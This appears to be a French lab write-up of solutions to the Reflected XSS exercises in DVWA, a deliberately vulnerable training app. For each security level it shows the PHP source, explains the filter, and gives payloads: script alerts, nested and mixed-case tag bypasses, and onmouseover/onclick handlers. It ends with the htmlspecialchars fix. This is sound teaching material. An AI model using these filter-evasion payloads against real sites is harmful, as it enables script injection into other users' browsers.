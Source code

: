 ```yaml
---
layout: post
title: DVWA - XSS réfléchi
subtitle: Reflected XSS - Solutions
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [DVWA, XSS, solutions]
comments: false
---
```


**Voici quelques solutions (liste non exhaustive) pour la catégorie "Reflected XSS" de Damn Vulnerable Web App, DVWA**

## 0x00 - XSS réfléchi 

Une vulnérabilité _Reflected_ _XSS_ apparaît lorsque des données fournies par un client web sont utilisées telles quelles par les scripts du serveur pour produire une page de résultats. Ces données non vérifiées peuvent être utilisées pour injecter du code dans la page dynamique reçue par le navigateur client. [1][2]

## 0x01 - Security level: Low

Code source:

~~~
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
~~~

Il n'y a aucune mesure de sécurité.

**Payload:**

~~~
<script>alert('xss');</script>
~~~

Red Team: 1 - Blue Team: 0

## 0x02 - Security level: medium

Code source:

~~~
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?> 
~~~

Mesure de sécurité mise en place: effacer la balise script 

~~~
$name = str_replace( '<script>', '', $_GET[ 'name' ] );
~~~

_Solution:_ utiliser un autre type de balise que script ou modifier son format

**Payload:**

~~~
#1
<sc<script>ript>alert('xss');</script>
#2
<sCriPt>alert('xss');</sCriPt>
~~~

Red Team: 1 - Blue Team: 0

## 0x03 - Security level: High

Code source:

~~~
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?> 
~~~

Mesure de sécurité mise en oeuvre: effacer tout contenu ou le mot script apparait

~~~
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );
~~~

_Solution:_ utiliser une autre forme de balise

**Payload:**

~~~
#1
<button onmouseover="alert('xss');">xss</button>
#2
<button onclick="alert('xss');">xss</button>
~~~

Red Team: 1 - Blue Team: 0

## 0x04 - Security level: impossible

Code source: 

~~~
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
~~~

Mesure de sécurité mise en oeuvre: utilisation de _htmlspecialchars_

~~~
$name = htmlspecialchars( $_GET[ 'name' ] );
~~~

A priori, pas de solution possible. Le site est sécurisé.

Red Team: 0 - Blue Team: 1

**Références:**

[1] Cross-site scripting, [https://fr.wikipedia.org/wiki/Cross-site_scripting#XSS_r%C3%A9fl%C3%A9chi_(ou_non_permanent)](https://fr.wikipedia.org/wiki/Cross-site_scripting#XSS_r%C3%A9fl%C3%A9chi_(ou_non_permanent))

[2] OWASP, Cross-site Scripting (XSS), [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

[3] OWASP, XSS Filter Evasion Cheat Sheet, [https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
